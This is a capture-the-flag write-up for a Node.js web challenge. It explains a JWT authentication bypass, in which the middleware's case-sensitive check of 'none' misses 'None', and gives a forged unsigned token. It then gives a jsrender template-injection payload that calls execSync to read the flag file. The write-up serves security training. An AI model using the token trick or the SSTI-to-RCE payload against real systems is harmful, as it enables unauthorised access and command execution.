 # Didactic Octo Paddles (medium)
In this challenge we will exploit JWT tokens and use SSTI to get RCE.

Spawning the website a login panel pops up. Nothing much we can do here, let's check the provided source code.

We see that most endpoints are protected with the login prompt.
We notice the register endpoint, so we could try to register and login with a user to further explore the site, however the **admin** endpoint seems way more interesting.

```javascript
    router.get("/admin", AdminMiddleware, async (req, res) => {
        try {
            const users = await db.Users.findAll();
            const usernames = users.map((user) => user.username);

            res.render("admin", {
                users: jsrender.templates(`${usernames}`).render(),
            });
        } catch (error) {
            console.error(error);
            res.status(500).send("Something went wrong!");
        }
    });
```

First of all there seems to be a clear SSTI bug which can be influenced by the usernames.
So here it will be useful to register a user with a username that will trigger the SSTI and give us RCE, but first we need to successfully authenticate as admin.

But the second reason this endpoint is so interesting is because it uses the `AdminMiddleware` instead of the usual `AuthMiddleware`, interesting... let's see what the `AdminMiddleware` does.


```javascript
const jwt = require("jsonwebtoken");
const { tokenKey } = require("../utils/authorization");
const db = require("../utils/database");

const AdminMiddleware = async (req, res, next) => {
    try {
        const sessionCookie = req.cookies.session;
        if (!sessionCookie) {
            return res.redirect("/login");
        }
        const decoded = jwt.decode(sessionCookie, { complete: true });

        if (decoded.header.alg == 'none') {
            return res.redirect("/login");
        } else if (decoded.header.alg == "HS256") {
            const user = jwt.verify(sessionCookie, tokenKey, {
                algorithms: [decoded.header.alg],
            });
            if (
                !(await db.Users.findOne({
                    where: { id: user.id, username: "admin" },
                }))
            ) {
                return res.status(403).send("You are not an admin");
            }
        } else {
            const user = jwt.verify(sessionCookie, null, {
                algorithms: [decoded.header.alg],
            });
            if (
                !(await db.Users.findOne({
                    where: { id: user.id, username: "admin" },
                }))
            ) {
                return res
                    .status(403)
                    .send({ message: "You are not an admin" });
            }
        }
    } catch (err) {
        return res.redirect("/login");
    }
    next();
};

module.exports = AdminMiddleware;
```

Ok, so we will need a session cookie first of all.
The algorithm can't be *none* because then we are forced to log in.
It also can't be `HS256`, because then the token is verified against the secret, which is random.
Therefore our only choice is to go into the `else` case.

We see the token is verified, but instead of a secret value `null` is provided.
This is our chance to bypass the authentication.
Some of the choices that first came to mind:
    * Type juggling: provide algorithm as an array/object/boolean etc.
    * Provide another algorithm such as `HS512`

However both of these approaches fail, to see why let's look into the `jsonwebtoken` source code.

```javascript
// verify.js:102
    if(err) {
      return done(new JsonWebTokenError('error in secret or public key callback: ' + err.message));
    }

    const hasSignature = parts[2].trim() !== '';

    if (!hasSignature && secretOrPublicKey){
      return done(new JsonWebTokenError('jwt signature is required'));
    }

    if (hasSignature && !secretOrPublicKey) {
      return done(new JsonWebTokenError('secret or public key must be provided'));
    }

    if (!hasSignature && !options.algorithms) {
      return done(new JsonWebTokenError('please specify "none" in "algorithms" to verify unsigned tokens'));
    }
```

`secretOrPublicKey` is the second argument to the call, that we know is `null`.

From this we can deduce that our forged JWT token should not have a signature part, otherwise the verification fails (second `if` statement)

From the third `if` statement we deduce that `algorithms` needs to be set, even if there are no signatures.

```javascript
// verify.js:148
    if (header.alg.startsWith('HS') && secretOrPublicKey.type !== 'secret') {
      return done(new JsonWebTokenError((`secretOrPublicKey must be a symmetric key when using ${header.alg}`)))
    } else if (/^(?:RS|PS|ES)/.test(header.alg) && secretOrPublicKey.type !== 'public') {
      return done(new JsonWebTokenError((`secretOrPublicKey must be an asymmetric key when using ${header.alg}`)))
    }
```

Here we see that if use any other algorithm than *none* a field of `secretOrPublicKey` is accessed, so we can't use an alternative algorithm to `HS256` that is not `none`.

```javascript
// verify.js:162
    let valid;

    try {
      valid = jws.verify(jwtString, decodedToken.header.alg, secretOrPublicKey);
    } catch (e) {
      return done(e);
    }
```

Then our variables are passed to `jws.verify`, let's look into what happens there.

*jws* calls *jwa* internally to get the verification algorithm based on what we provide in `alg`.

Let's see what happens when `jwa` is called:

```javascript
// index.js:227
module.exports = function jwa(algorithm) {
  var signerFactories = {
    hs: createHmacSigner,
    rs: createKeySigner,
    ps: createPSSKeySigner,
    es: createECDSASigner,
    none: createNoneSigner,
  }
  var verifierFactories = {
    hs: createHmacVerifier,
    rs: createKeyVerifier,
    ps: createPSSKeyVerifier,
    es: createECDSAVerifer,
    none: createNoneVerifier,
  }
  var match = algorithm.match(/^(RS|PS|ES|HS)(256|384|512)$|^(none)$/i);
  if (!match)
    throw typeError(MSG_INVALID_ALGORITHM, algorithm);
  var algo = (match[1] || match[3]).toLowerCase();
  var bits = match[2];

  return {
    sign: signerFactories[algo](bits),
    verify: verifierFactories[algo](bits),
  }
};
```

Here we see that to match the algorithm a regex is used.
All looks good, however not the flag used: `i`, the case insensitive flag.
This means that `none`, `None`, and `NONE` would be all valid matches.

Furthermore when `algo` is decided the match itself is converted to lower case letters.

But recall how in the `AdminMiddleware` we execute a case sensitive comparison with `==`.

And here we have our first bug, which allows us to bypass the JWT token verification for admin.

We will send the following JWT token: `eyJhbGciOiAiTm9uZSIsInR5cCI6IkpXVCJ9.eyJpZCI6MX0.`, encoded in the second part is the user ID we want, which is 1 for the admin.

Now all that is left to do is to send a POST request to the `/register` endpoint and create a user with the SSTI payload as the username.

```
payload: {{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()")()}}
```

Now we log in with the **admin** user with the JWT bypass, and just enjoy the flag.
